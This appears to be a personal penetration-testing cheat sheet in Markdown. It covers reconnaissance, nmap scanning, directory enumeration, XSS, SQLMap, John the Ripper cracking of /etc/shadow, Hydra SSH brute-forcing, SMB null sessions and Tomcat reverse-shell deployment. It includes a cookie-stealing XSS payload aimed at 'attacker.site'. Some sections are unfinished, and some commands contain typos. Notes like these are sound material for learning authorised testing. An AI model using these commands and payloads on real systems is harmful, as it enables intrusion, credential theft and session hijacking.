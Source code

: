 # Penetration Testing Process

## Information Gathering
- ### OSINT
  - Social Networks
  - Public Sites
- ### Subdomain Enumeration
  - search query: 'site: company.com'
  - dnsdumpster.com
  - sublist3r

## Footprinting & Scanning
- ### Network Mapping
  - Ping Sweeping: akd Host Discover
    - `fping -a -g <IPRANGE>` 
    - `nmap -sn <IPRANGE>`
  - OS Fingerprinting
    - `nmap -Pn -O <IPRANGE>`
- ### Port Scanning
  - `nmap -sS -sV <IPRANGE>`
  - `nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

## Vulnerability Assessment
- ### Nessus
- ### Manually
  - learn & understand features of application
  - how does it application exchange data over the internet?
  - how does it access resources (ie. databases, servers, local/remote files, etc.)?
  - attempt to reverse engineer its logic 

## Web Attacks
- ### Exploiting Misconfigured HTTP Verbs
  - TODO
- ### Directory & File Enumeration
  - `gobuster dir -u <url> -w [dictionary wordlist to use] -x [extensions to look for]`
    - typical wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    - extensions I usually look for: .php,.txt,.bak,.old,.css,.js,.html,.htm
- ### XSS
  - test every user input: forms, search bars, GET/POST parameters, url query parameters, cookies
  - types:
    - reflected
      - users trigger payload when visiting a link
    - persistent
      - payload stored on server & triggers everytime injected web page is hit
      - common attack vectors:
        - injecting HTML, JS, PHP into comments, user profile information, forums
  - Payload to steal cookies and send to attacker controlled site:
    - `<script>var i = new Image(); i.src="http://attacker.site/log.php?q="+document.cookie;<script>`
  - Mostly use to upload reverse shell code to gain access to servers
- ### SQL Injection
  - exploit dynamic queries (queries reliant on user input)
  - test user inputs for injection points
  - SQLMap: used to exploit injection points
    - `sqlmap -u <url> -p <injection point parameter> [options]`
   
## System Attacks
- ### Password Cracking
  - John The Ripper
    - if you are able to acquire passwd and shadow file from linux system: 
      - `unshadow /etc/passwd /etc/shadow > crackme`
      - `john crackme`
    - basic dictionary attack:
      - `john --format=[hash-format] --wordlist=[password-list] [password-hash-list]`
        - wordlist i mostly use: /usr/share/wordlists/rockyou.txt
        - can use hash-identifier to identify hash format

## Network Attacks
- ### Authentication Cracking
  - Used for SSH, RDP, etc.
  - Hydra:
    - `hydra -L [users-list] -P [password-list] [service://server] [options]`
      - ex to crack ssh: `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.100.10`
- ### Windows Share Attacks
  - Windows:
    - `nbtstat -A [target IP]` : shows us what file sharing services are up and running
      - look for record type <20> 
    - if <20> record type:
      - `NET VIEW [target IP]` : enumerates shares
  - Linux:
    - `nbmlookup -A [target IP] : enumerate shares
    - `smbclient -L //IPADDRESS -N` : client to access Windows shares
      - -L look at services available on target
      - -N forces tool to not ask for password
  - Identify Null Sessions
    - try to connect to IPC$ share without valid credentials
      - Windows: `NET USE \\TARGETIPADDRESS\IPC$ '' /u:''`
      - Linux: `smbclient //TARGETIPADDRESS/IPC$ -N`
  - Exploiting Null Sessions
    - Enum4Linux
- ### ARP Poisoning
  - TODO

## Exploiting Common Services
- ### Apache Tomcat
  - Default Directory: /manager/html
  - Most Common Default Credentials: tomcat:s3cret
  - Upload and deploy reverse shell .war file 
- ### MS SQL Server
  - 

